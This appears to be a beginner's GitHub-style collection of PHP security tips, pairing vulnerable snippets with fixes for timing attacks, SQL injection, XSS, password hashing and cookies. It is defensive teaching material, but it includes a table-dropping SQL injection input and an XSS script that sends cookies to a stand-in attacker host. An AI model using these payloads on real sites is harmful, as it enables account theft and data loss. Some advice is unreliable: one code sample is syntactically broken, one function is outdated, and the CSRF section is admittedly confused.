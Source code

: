 ### PHP security collection
I am not an expert, just somemone who collects security vulnerabilities!

#### Genral links
https://github.com/paragonie/awesome-appsec#php

https://www.udemy.com/course/php-security/

#### Timing attack

String compare operators return immediately if the length is not the same:
So you could see if one length takes longer than other, based on that you can get the length. The string compare operator return immediately if the a character is wrong, so based on that: you can get the character that takes the longest and that this is the right character.

```
if ($_POST["password"] !== "Password") {
    return false;
}
```
Even if the time difference is so little and ther is network jitter: why risk it. Use hash_equals($known_string, $user_string), which doesnt leak time difference (only for getting the length).
```
if (hash_equals("Password", $_POST["password"]) {
    return true;
}
```

[Link on topic](https://blog.ircmaxell.com/2014/11/its-all-about-time.html)

#### Insufficient Randomness

Dont use mt_rand() . Use one of the following:

* RandomLib
* random_bytes($length) (PHP 7, or available in PHP 5 via random_compat)
* Raw bytes read from /dev/urandom
* mcrypt_create_iv($length, MCRYPT_DEV_URANDOM);
* openssl_random_pseudo_bytes($length);

```
$token = bin2hex(openssl_random_pseudo_bytes($length));
```

[Link on topic](https://paragonie.com/blog/2015/04/secure-authentication-php-with-long-term-persistence)

#### SQL injection
```
$userQuery = $con->query("SELECT * FROM users WHERE email = '$email' ");
```

If user input is:
''; DROP TABLE posts; --
This will drop the table posts.

To avoid this, use prepare statement.
```
$userQuery = $con->prepare("SELECT * FROM users WHERE email = :email");
$userQuery->execute([
    'email' => $email
]);
```
[PDO tutorial](https://phpdelusions.net/pdo)

#### PHP ini

```
display_errors=Off ;hides possible data leaks
```

#### Cross-site scripting (XSS)
XSS is an injection attack. If you have some type of form, that uploads data and try to show this data as html code, you can insert javascript. For example: you can commit a comment and you show this comment as html, you can insert into the comment javscript: which will, when inserted, be ecexuted. You could insert this "harmless" code:
```
<script>
window.alert("Hello i am inserted")
</script>
```
To see how dangerous XSS is, look at that:
```
<script>
window.location = "http://hacker.com/hack.php?cookie=" + escape(document.cookie)
</script>
```
See, you can steal cookies: which can have eccess tokens.

When insert text with javascript use instead of innerHTML, textContent. When echo in php fetch the echo content out of htmlspecialchars($_POST["body"]).
```
echo htmlspecialchars($_POST["body"]);
```

When insert text with javascript use instead of innerHTML, textContent.

#### Password hashing
Dont use md5 hashing. It is easily crackable.
```
md5($_POST["password"]) //dont do this
```
Use password_hash($password).
```
password_hash($password, PASSWORD_DEFAULT) // this hashes the password
```
[Password hash manual](https://www.php.net/manual/de/function.password-hash.php) <br>
Use password_verify to verify the password.
```
$result = password_verify($password, $hash);
```
#### Hiding directories
To hide directories create in the a .htacess file, in the directorie and then it cant be eccessed. Put this in there.
```
Options -Indexes
```
#### Http only cookie
```
setcookie("token", $tokenCookie, NULL, "/", NULL, TRUE, TRUE);
```
The last true sets the cookie to http only. Makes it not eccessable from javascript.

#### Cross-Site Request Forgery (CSRG)
I didnt understand CSRG, because its attack where you bascially open a not protected public php file to perform a action. It should be clear to protect you php files from random eccess therby enabling actions. With handshake between you browser and server, with authorisation-methods such as: Cookies, Sessions, JWTs.
